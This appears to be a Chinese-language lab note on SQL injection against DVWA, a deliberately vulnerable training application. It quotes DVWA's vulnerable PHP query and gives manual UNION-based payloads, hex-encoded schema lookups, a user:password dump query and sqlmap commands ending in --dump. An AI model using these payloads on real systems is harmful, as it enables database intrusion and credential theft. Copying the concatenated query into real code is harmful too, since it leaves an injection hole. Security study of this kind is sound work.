










## 4 sql 注入
---
### 数据库查询

    mysql -uroot -p123123
    show databases;
    use dvwa;
    show tables;

    select * from users;
    
    union select 联合查询
    group_concat() 组合
    
    select 1，2   增加行

---
### information_schema 自带数据库。

    表 schemata 存着mysql的所有数据库名字。
    
    表 tables 存着mysql所有数据库的表名。
    
    表 COLUMN 存着表中所有 数据库表 的 字段

----

### sql注入 手动

拦截报文，在id=1 后面加上 '   发包

可以看到 Response 报错，并返回错误语句。

    SELECT first_name, last_name FROM users WHERE user_id = '1'';

查看网页源码

    // Get input
	$id = $_REQUEST[ 'id' ];

	// Check database
	$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

修改报文：

    id = 1'#    然后 crtl + u 转码
    id = 1'%23

重新发包，错误消失。  原因是 # 注释掉了后面 '

    注释方式
    #
    -- 
    /**/   ->  注入方式 /*! select databases()*/;

如果在命令行中测试，则需要增加  ; 

因为 # 会注释掉后面的所有字符。

### 加 ‘ 的目的是隔开字符串，注入后续的命令。 如： and 1 = 1

    id=1'and+1%3d1+%23

使用order by 试探出字段数为2。所以联合查询，select 1,2。 1,2 内嵌查询数据库与用户。

    id =1' union select (select database()),(select user()) #
    id=1'union+select+(select+database()),(select+user())%23

---

安装hackbar插件。

右键选择 sql注入， 添加hex（）。

得到结果，ASCII解码。

同样，可使用此功能查询表名（输入数据库名称）。

查询列名。 添加一下命令。

    and TABLE_SCHEMA = 0x64767761;     dvwa ASCII编码 64767761

结果如下，ASCII解码

查询数据。

    SELECT+GROUP_CONCAT(user,":",password+SEPARATOR+0x3c62723e)+FROM+dvwa.users

---
### sqlmap自动化注入

brup suit 保存数据报文 txt。

自动化注入。

    python sqlmap.py -r 路径 --batch 

id 参数存在注入 GET 请求

注入类型 布尔类型，报错，延时，联合注入。

    python sqlmap.py -r 路径 --batch --dbs

    python sqlmap.py -r 路径 --batch -D dvwa -T user --column

    python sqlmap.py -r 路径 --batch -D dvwa -T user -C "users,password" --dump

